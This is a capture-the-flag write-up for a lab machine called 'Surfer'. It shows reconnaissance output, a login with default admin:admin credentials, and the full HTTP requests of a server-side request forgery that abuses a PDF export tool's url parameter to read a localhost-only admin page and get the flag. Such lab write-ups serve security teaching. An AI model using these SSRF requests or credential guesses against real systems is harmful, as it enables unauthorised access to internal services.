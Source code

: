 # Surfer

---

ip = `10.10.53.244`

---

`http://10.10.53.244/robots.txt`

```
User-Agent: *
Disallow: /backup/chat.txt
```

`http://10.10.53.244/backup/chat.txt`

```
Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

---

### nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


### gobuster

```
/assets               (Status: 301) [Size: 313] [--> http://10.10.53.244/assets/]
/backup               (Status: 301) [Size: 313] [--> http://10.10.53.244/backup/]
/changelog.txt        (Status: 200) [Size: 816]
/index.php            (Status: 302) [Size: 0] [--> /login.php]
/index.php            (Status: 302) [Size: 0] [--> /login.php]
/internal             (Status: 301) [Size: 315] [--> http://10.10.53.244/internal/]
/login.php            (Status: 200) [Size: 4774]
/logout.php           (Status: 302) [Size: 0] [--> /login.php]
/Readme.txt           (Status: 200) [Size: 222]
/robots.txt           (Status: 200) [Size: 40]
/robots.txt           (Status: 200) [Size: 40]
/server-info.php      (Status: 200) [Size: 1689]
/server-status        (Status: 403) [Size: 277]
/vendor               (Status: 301) [Size: 313] [--> http://10.10.53.244/vendor/]

```

```
internal/admin.php            (Status: 200) [Size: 39]
internal/admin.php            (Status: 200) [Size: 39]
```

## Initial foothold

http://10.10.53.244/index.php

- login with `admin`:`admin`

- As mentioned in `/backup/chat.txt`, website have a `export2pdf` tool/functionality which generates reports for the specified `url` parameter in POST request

- From Recent Activity section we came to know that

`Internal pages hosted at /internal/admin.php. It contains the system flag. 
`


```
POST /export2pdf.php HTTP/1.1
Host: 10.10.53.244
Content-Length: 44
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://10.10.53.244
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.53.244/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=39a0b118932b582f6043460dc54ff9a7
Connection: keep-alive

url=http%3A%2F%2F127.0.0.1%2Fserver-info.php
```

- On visiting `/internal/admin.php`

`$ curl -s http://10.10.53.244/internal/admin.php`

we get 

```
This page can only be accessed locally.
```
- Earlier in export2pdf tool the url parameter is from localhost (127.0.0.1), so by changing the path into `/internal/admin.php` we might get the flag.

```
POST /export2pdf.php HTTP/1.1
Host: 10.10.53.244
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://10.10.53.244
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.53.244/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=39a0b118932b582f6043460dc54ff9a7
Connection: keep-alive

url=http%3A%2F%2F127.0.0.1%2Finternal/admin.php
```
We got the flag

```
Report generated for http://127.0.0.1/internal/admin.php
flag{6255c55660e292cf0116c053c9937810}
```

`flag{6255c55660e292cf0116c053c9937810}`